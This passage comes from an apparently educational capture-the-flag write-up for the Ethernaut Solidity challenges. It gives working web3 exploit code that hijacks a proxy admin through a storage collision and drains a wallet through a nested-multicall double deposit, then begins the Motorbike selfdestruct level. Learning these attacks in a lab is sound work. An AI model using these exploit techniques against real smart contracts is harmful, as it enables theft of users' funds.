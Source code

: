 > #### Solution:
> - Call the `proposeNewAdmin` of the `ProxyPuzzle` contract.
> ```js
> await sendTransaction({
>     from: player,
>     to: instance,
>     data: web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)") + web3.eth.abi.encodeParameter("address", player).substring(2)
> });
> ```
> - We have to whitelist ourself.
> ```js
> await contract.addToWhitelist(player);
> ```
> 
> - We need to make the instance balance to 0.
> ```js
> var {data: deposit} = await contract.deposit.request();
> var {data: multiDeposit} = await contract.multicall.request([deposit]);
> var {data: execute} = await contract.execute.request(player, toWei("0.002"), "0x");
> arr = [deposit, multiDeposit, execute];
> await sendTransaction({
>   from: player,
>     to: instance,
>     value: toWei("0.001"),
>     data: web3.eth.abi.encodeFunctionSignature("multicall(bytes[])") + web3.eth.abi.encodeParameter("bytes[]", arr).substring(2)
> });
> ```
> - Now we can call the `setMaxBalance` to set the `maxBalance`.
> ```js
> await contract.setMaxBalance(player);
> ```

<hr>

## 25 Motorbike
We need to `selfdestruct` its engine contract.
#### Source:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
```
